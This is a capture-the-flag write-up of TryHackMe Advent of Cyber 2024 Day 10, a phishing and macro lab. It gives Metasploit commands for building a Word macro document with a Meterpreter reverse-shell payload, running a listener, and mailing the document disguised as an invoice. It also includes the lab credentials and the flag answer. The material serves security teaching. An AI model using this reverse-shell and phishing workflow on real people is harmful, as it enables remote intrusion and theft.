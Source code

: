 # 🎄 TryHackMe Advent of Cyber 2024 – Day 10: Phishing and Macro Exploitation

## Objectives 🎯

Day 10 focuses on understanding **phishing attacks** and how malicious macros can be embedded into Microsoft Office documents to execute payloads. The key tasks include:
- Learning how phishing exploits social engineering to bypass security.
- Creating a malicious macro-enabled document using Metasploit.
- Executing a phishing simulation to deliver the malicious document and gain a reverse shell.

## Steps 🚀

### **Step 1: Setting Up the Environment**
1. **Start the Machines:**
   - Click the **Start Machine** button to start the **target machine** attached to this task.
   - Launch the **AttackBox** by clicking the **Start AttackBox** button at the top of the page.
   
2. **Launch Metasploit Framework:**  
   Open the AttackBox terminal and start Metasploit:
   ```
   msfconsole
   ```

3. **Set Payload for Reverse Shell:**  
   Configure the payload:
   ```
   set payload windows/meterpreter/reverse_tcp
   ```

4. **Specify Exploit Module:**  
   Use the module to create a malicious macro:
   ```
   use exploit/multi/fileformat/office_word_macro
   ```

5. **Set Listener Details:**  
   Define the attacker IP (`LHOST`) and port (`LPORT`):
   ```
   set LHOST ATTACKBOX_IP
   set LPORT 8888
   ```

6. **Generate Malicious Document:**  
   Generate the Word document with the embedded macro:
   ```
   exploit
   ```
   The document (`msf.docm`) is saved to `/root/.msf4/local/msf.docm`.

---

### **Step 2: Configuring the Listener**
1. **Start the Listener in Metasploit:**  
   Use the multi-handler module to listen for incoming connections:
   ```
   use multi/handler
   set payload windows/meterpreter/reverse_tcp
   set LHOST ATTACKBOX_IP
   set LPORT 8888
   exploit
   ```

2. **Wait for Connections:**  
   The listener is now ready to capture reverse shells once the document is executed.

### **Step 3: Sending the Malicious Document**
1. **Log In to the Mail Server:**  
   Open Firefox in the AttackBox and navigate to `http://MACHINE_IP`. Use the provided credentials:
   - **Email:** info@socmas.thm  
   - **Password:** MerryPhishMas!

2. **Compose a Phishing Email:**  
   Attach the malicious document (`msf.docm`) and send it to the target:
   - **Recipient:** marta@socmas.thm  
   - Rename the document to something plausible like `invoice.docm`.

3. **Social Engineering Message:**  
   Write a convincing message in the email body to entice the target to open the document.

### **Step 4: Exploitation**
1. **Target Opens the Document:**  
   Once Marta opens the document, the embedded macro executes, establishing a reverse shell connection.

2. **Access the Target System:**  
   In Metasploit, observe the successful connection:
   ```
   msf6 exploit(multi/handler) > exploit
   ```

3. **Navigate to the Desktop:**  
   Use the Meterpreter session to find the `flag.txt`:
   ```
   cd c:/users/Administrator/Desktop
   ls
   cat flag.txt
   ```

4. **Retrieve the Flag:**  
   The flag is displayed.

**Flag:** `THM{PHISHING_PAYLOAD_WIN}`

## Key Findings 🔑

1. **Phishing Attacks:**  
   Social engineering is a highly effective method to bypass technical defenses.
   
2. **Malicious Macros:**  
   Macros in Office documents can be weaponized to execute payloads and gain remote access.

3. **Reverse Shell:**  
   A reverse shell allows attackers to control a compromised system remotely, bypassing firewalls and NAT.

## Lessons Learned 🌟

### Key Takeaways
1. **Human Factor:**  
   Phishing attacks exploit human error, making security awareness training critical.
   
2. **Macro Exploitation:**  
   Embedding malicious macros in commonly used file formats can evade basic defenses.

3. **Phishing Prevention:**  
   - Use domain filtering to block typosquatting domains.
   - Enable email security tools like DKIM and SPF.
   - Educate users to identify phishing attempts.

### Mitigation Strategies
- Disable macros by default in Office applications.
- Monitor outgoing network connections for unusual activity.
- Deploy advanced endpoint protection solutions.

### Tools and Techniques 🛠️
1. **Metasploit Framework:**  
   Used to generate malicious documents and handle reverse shells.
2. **Email Server Simulation:**  
   Sent phishing emails to the target.
3. **Meterpreter:**  
   Exploited the connection to gain control over the target system.

## Final Thoughts 🎁

Day 10 provided hands-on experience with **phishing attacks** and the power of **macro-enabled documents** in social engineering exploits. This task emphasized the importance of user training and technical controls to mitigate phishing risks. The seamless integration of Metasploit made this challenge both informative and practical for real-world scenarios.

### Answers ✅
1. **What is the flag value inside the `flag.txt` file?**  
   **Answer:** `THM{PHISHING_PAYLOAD_WIN}`

## Table of Contents 📚

- [Day 1: OPSEC Challenge](day1.md)  
- [Day 2: Log Analysis](day2.md)  
- [Day 3: Log Analysis](day3.md)  
- [Day 4: Atomic Red Team](day4.md)  
- [Day 5: XXE Exploitation](day5.md)  
- [Day 6: Sandboxes](day6.md)  
- [Day 7: AWS Log Analysis](day7.md)  
- [Day 8: Shellcode Execution](day8.md)  
- [Day 9: Risk Assessment Challenge](day9.md)  
- **Day 10: Phishing**
- [Day 11: Wi-Fi Attacks](day11.md)
- [More Days to Come!](README.md)
